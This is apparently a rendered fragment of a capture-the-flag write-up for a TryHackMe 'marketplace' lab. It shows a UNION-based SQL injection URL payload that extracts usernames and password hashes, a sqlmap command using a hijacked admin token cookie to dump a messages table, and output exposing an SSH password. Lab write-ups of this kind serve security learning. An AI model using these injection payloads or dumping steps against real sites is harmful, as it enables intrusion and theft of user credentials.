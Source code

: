 <p>CVE</p>
</blockquote></th>
<th>PoC</th>
<th>Exploit</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Vuln#1</td>
<td>SQL Injection in URL</td>
<td><p><em>I tried different payloads to get information about the table exact table name and guessed the columns</em></p>
<p> </p>
<p><a href="http://thm/admin?user=3">http://thm/admin?user=3</a> UNION select password,username,null,isadministrator from users where id = 2 order by id</p>
<p> </p>
<p>URL ENCODE</p>
<p>----------------------------------------------</p>
<p><a href="http://thm/admin?user=3eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDUyMDY4MzF9.r4QOEyUEdvDuN4Lth1QMiuHulPy0pyFDYUFuJn6sh80">http://thm/admin?user=3eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDUyMDY4MzF9.r4QOEyUEdvDuN4Lth1QMiuHulPy0pyFDYUFuJn6sh80</a></p>
<p>----------------------------------------------</p>
<p>RETURNS</p>
<p>User $2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q</p>
<p>User michael</p>
<p>ID: $2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q</p>
<p>Is administrator: true</p>
<p> </p>
<p>User $2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG</p>
<p>User jake</p>
<p>ID: $2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG</p>
<p>Is administrator: true</p>
<p> </p>
<p>Using <a href="https://hashes.com/en/tools/hash_identifier">https://hashes.com/en/tools/hash_identifier</a></p>
<p><strong>Cracking seems to be a rabbit hole!</strong></p>
<p>________________________________________________________________________</p>
<p>Trying to read the messages table:</p>
<p> </p>
<p>sqlmap <a href="http://thm/admin?user=3">http://thm/admin?user=3</a> --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDUyMDc3NjZ9.kgzjOrNeYWKffj5v8Vk-LzMNnQgXG9ZNieHmvsh0l1I' --delay=3 -dump --technique=U --proxy="http://localhost:8080" -T "messages"</p>
<p>Database: marketplace</p>
<p>Table: messages</p>
<p>[11 entries]</p>
<p>+----+---------+---------+-----------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+</p>
<p>| id | is_read | user_to | user_from | message_content |</p>
<p>+----+---------+---------+-----------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+</p>
<p>| 1 | 1 | 3 | 1 | Hello!\r\nAn automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.\r\nYour new password is: @b_ENXkGYUCAv3zJ</p></td>
<td> </td>
</tr>
</tbody>
</table>
<p> </p></td>
<td><p>Found Password Hashes,</p>
<p>Found SSL Password in Message Table</p></td>